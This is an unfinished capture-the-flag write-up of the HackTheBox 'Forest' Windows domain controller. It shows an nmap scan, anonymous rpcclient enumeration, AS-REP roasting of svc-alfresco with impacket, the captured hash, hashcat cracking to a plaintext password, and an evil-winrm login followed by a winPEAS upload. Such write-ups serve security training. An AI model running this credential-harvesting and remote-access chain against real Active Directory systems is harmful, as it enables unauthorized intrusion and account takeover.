

# Hackthebox - Forest - Windows

## Nmap

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.10.161                   
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-24 19:03 EDT
Nmap scan report for 10.10.10.161
Host is up (0.026s latency).
Not shown: 65517 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
88/tcp    open  kerberos-sec?
135/tcp   open  msrpc?
139/tcp   open  netbios-ssn?
389/tcp   open  ldap?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http     Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  globalcatLDAP?
3269/tcp  open  tcpwrapped
47001/tcp open  winrm?
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  ncacn_http     Microsoft Windows RPC over HTTP 1.0
49677/tcp open  unknown
49684/tcp open  unknown
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb2-security-mode: SMB: Couldn't find a NetBIOS name that works for the server. Sorry!
|_smb2-time: ERROR: Script execution failed (use -d to debug)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 195.39 seconds
```

## Port 135 and 593 - RPC

- Enumerate users `rpcclient -U "" -c "enumdomusers" -N 10.10.10.161`

```
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -c "enumdomusers" -N 10.10.10.161
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

- Enumerate privilege `rpcclient -U "" -c "enumprivs" -N 10.10.10.161`

```
┌──(kali㉿kali)-[~]
└─$ rpcclient -U "" -c "enumprivs" -N 10.10.10.161                                                                                                                                                                                       1 ⨯
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTcbPrivilege          0:7 (0x0:0x7)
SeSecurityPrivilege             0:8 (0x0:0x8)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeLoadDriverPrivilege           0:10 (0x0:0xa)
SeSystemProfilePrivilege                0:11 (0x0:0xb)
SeSystemtimePrivilege           0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege                 0:13 (0x0:0xd)
SeIncreaseBasePriorityPrivilege                 0:14 (0x0:0xe)
SeCreatePagefilePrivilege               0:15 (0x0:0xf)
SeCreatePermanentPrivilege              0:16 (0x0:0x10)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeShutdownPrivilege             0:19 (0x0:0x13)
SeDebugPrivilege                0:20 (0x0:0x14)
SeAuditPrivilege                0:21 (0x0:0x15)
SeSystemEnvironmentPrivilege            0:22 (0x0:0x16)
SeChangeNotifyPrivilege                 0:23 (0x0:0x17)
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SeUndockPrivilege               0:25 (0x0:0x19)
SeSyncAgentPrivilege            0:26 (0x0:0x1a)
SeEnableDelegationPrivilege             0:27 (0x0:0x1b)
SeManageVolumePrivilege                 0:28 (0x0:0x1c)
SeImpersonatePrivilege          0:29 (0x0:0x1d)
SeCreateGlobalPrivilege                 0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege                 0:31 (0x0:0x1f)
SeRelabelPrivilege              0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege           0:33 (0x0:0x21)
SeTimeZonePrivilege             0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege           0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege               0:36 (0x0:0x24)
```

- Get domain info `rpcclient -U "" -c "querydominfo" -N 10.10.10.161`

```
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ rpcclient -U "" -c "querydominfo" -N 10.10.10.161
Domain:         HTB
Server:
Comment:
Total Users:    105
Total Groups:   0
Total Aliases:  0
Sequence No:    1
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1
```

- Emumerate domain groups

```
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ rpcclient -U "" -c "enumdomgroups" -N 10.10.10.161  
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

- `rpcclient -U "" -c "queryuser andy" -N 10.10.10.161` get info on users

```
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ rpcclient -U "" -c "queryuser andy" -N 10.10.10.161
        User Name   :   andy
        Full Name   :   Andy Hislip
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 19:00:00 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Sun, 22 Sep 2019 18:44:16 EDT
        Password can change Time :      Mon, 23 Sep 2019 18:44:16 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x47e
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000000
        padding1[0..7]...
        logon_hrs[0..21]...

```

- Let's try to kerberoast.
- The domain is HTB `python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb/svc-alfresco -no-pass `

```bash
┌──(kali㉿kali)-[~/Documents/hackthebox/forest]
└─$ python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb/svc-alfresco -no-pass 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:6510e231f7bd073beb207c9c8b0312f1$9ee65c44e5fb88dd1a6e59b723eff51cf8cc3d991c7070173d0467ce8be8f1d700e7cfc92037501e59cfd3126649041a63f9cb0ea50e4217baf607d4fdfc472f28c7ff95d6de871bd57774d0eaf969a32f9d23753d723e6917ada3e25a22e799552da96c7ff8e08cd50acdb8b8110fdfb0dc539312da2c5ced243df8f5934dae41789ecbbf7b96ef67b731372424aea72e616c510677f644926216f67dea198bda8a0a174df8253af33c3aae6b16b3b5209dd51fc8ef2a29d5bbb163c0593eed4f4974dbe82833582d4f4ccdc0f1e2d555cac02d7472f52595f157c52708a363
```

- Now we can crack the password with hashcat `hashcat -m 18200  hash.txt /usr/share/wordlists/rockyou.txt` And we get the password it is `s3rvice`  

  

- Let's try to get a shell with evil-winrm `evil-winrm -i 10.10.10.161 -u svc-alfresco -p 's3rvice'`

## Privesc

- Let's upload winpeas with evil-winrm it is easy we just have to use the upload command `upload /home/kali/Documents/hackthebox/forest/winPEASany.exe`

**Coming Soon**